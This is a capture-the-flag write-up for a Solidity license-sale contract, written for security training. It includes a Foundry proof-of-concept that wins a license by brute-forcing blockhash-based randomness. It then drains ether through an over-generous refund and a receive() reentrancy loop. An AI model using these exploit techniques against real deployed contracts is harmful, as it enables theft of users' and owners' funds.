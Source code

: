 # LicenseManager

## Objective of CTF

We are looking at a Smart Contract called LicenseManager for managing licenses that cost 1 ether

As attackers, we only have 0.01 ether. 
1. Our first goal is to get the license anyway. 
2. Also, find at least two ways to collect the ethers in the contract before the owner notices

## Proof of Concept

Exploit 1: 

a. The attacker has only 0.01 ether, which is not enough to buy a license directly.

b. The attacker initiates a loop where it keeps rolling the block number to change the context of the blockhash.

c. Within each iteration, the attacker calculates an algorithm using the current block number and other parameters.

d. The attacker checks if the calculated algorithm yields a number lower than the maxThreshold.

e. If the condition is satisfied, the attacker calls the winLicense function of the LicenseManager contract with 0.01 ether.

f. The loop continues until the attacker successfully wins a license.

g. Once the license is obtained, the attacker asserts that the license status is true.

Exploit 2.1:

a. The attacker calls the refundLicense function of the LicenseManager contract to refund the license they previously acquired.

b. This function removes the attacker's address from the licensed array and transfers 1 ether back to the attacker's address.

c. The attacker then checks that their license status is now false.

Exploit 2.2:

a. The attacker sends 1 ether to the LicenseManagerTest contract itself.

b. The attacker initiates a loop similar to Exploit 1, rolling the block number and calculating an algorithm.

c. If the calculated algorithm yields a number lower than the maxThreshold, the attacker calls the winLicense function with 0.01 ether.

d. The loop continues until the attacker wins a license.

e. Once the license is obtained, the attacker calls the refundLicense function to refund the license.

f. Within the refundLicense function, 1 ether is transferred to the LicenseManagerTest contract itself.

g. The attacker asserts that the balance of the LicenseManagerTest contract is now greater than 1 ether.

Reentrancy:

a. The LicenseManagerTest contract implements a receive function, which is a fallback function that is triggered when the contract receives ether.

b. The attacker sends ether to the LicenseManagerTest contract, which triggers the receive function.

c. If the balance of the LicenseManagerTest contract is less than 1 ether, the refundLicense function of the LicenseManager contract is called.

d. This creates a reentrancy vulnerability, as the refundLicense function transfers 1 ether back to the caller, which is the LicenseManagerTest contract in this case.

e. The attacker exploits this vulnerability by repeatedly calling the refundLicense function within the receive function until the balance of the LicenseManagerTest contract exceeds 1 ether.

These are the step-by-step explanations of the exploits executed in the given POC.

```
contract LicenseManagerTest is Test {
    LicenseManager license;

    address owner = makeAddr("owner");
    address user1 = makeAddr("user1");
    address user2 = makeAddr("user2");
    address user3 = makeAddr("user3");
    address user4 = makeAddr("user4");

    address attacker = makeAddr("attacker");

    function setUp() public {
        vm.prank(owner);
        license = new LicenseManager();

        vm.deal(user1, 1 ether);
        vm.deal(user2, 1 ether);
        vm.deal(user3, 1 ether);
        vm.deal(user4, 1 ether);

        vm.prank(user1);
        license.buyLicense{value: 1 ether}();

        vm.prank(user2);
        license.buyLicense{value: 1 ether}();

        vm.prank(user3);
        license.buyLicense{value: 1 ether}();

        vm.prank(user4);
        license.buyLicense{value: 1 ether}();
    }

    function test_exploit1_2() public {
        vm.deal(attacker, 0.01 ether);
        vm.startPrank(attacker);

        //Challenge 1 solution

        uint256 currentBlockNumber = block.number;
        uint256 maxThreshold = uint256((0.01 ether / 1e16));
        bool hasLicense = false;

        while (!hasLicense) {
            vm.roll(currentBlockNumber);
            uint256 algorithm = uint256(
                keccak256(
                    abi.encodePacked(uint256(0.01 ether), address(attacker), uint256(1337), blockhash(block.number - 1))
                )
            );
            uint256 pickedNumber = algorithm % 100;
            if (pickedNumber < maxThreshold) {
                hasLicense = license.winLicense{value: 0.01 ether}();
            }
            currentBlockNumber++;
        }

        assertEq(true, hasLicense);
        assertEq(true, license.checkLicense());
        vm.stopPrank();

        vm.startPrank(attacker);

        //Challenge 2.1 solution
        license.refundLicense();
        assertFalse(license.checkLicense());

        assertGt(attacker.balance, 0.1 ether);
        vm.stopPrank();
    }

    // collect the ethers in the contract before the owner notices in second way.

    function test_exploit3() public {
        vm.deal(address(this), 1 ether);
        // challenge 2.2 solution

        uint256 currentBlockNumber = block.number;
        uint256 maxThreshold = uint256((0.01 ether / 1e16));
        bool hasLicense = false;

        while (!hasLicense) {
            vm.roll(currentBlockNumber);
            uint256 algorithm = uint256(
                keccak256(
                    abi.encodePacked(uint256(0.01 ether), address(this), uint256(1337), blockhash(block.number - 1))
                )
            );
            uint256 pickedNumber = algorithm % 100;
            if (pickedNumber < maxThreshold) {
                hasLicense = license.winLicense{value: 0.01 ether}();
            }
            currentBlockNumber++;
        }

        assertEq(true, hasLicense);
        assertEq(true, license.checkLicense());

        license.refundLicense();

        console.log("\tFinal Balance\t", address(this).balance);
        assertGt(address(this).balance, 1 ether);
    }

    receive() external payable {
        console.log("start reentrancy");
        if (address(this).balance < 1 ether) {
            license.refundLicense();
        }
    }
}

interface ILicenseManager {
    function winLicense() external payable returns (bool);
    function refundLicense() external;
}
```
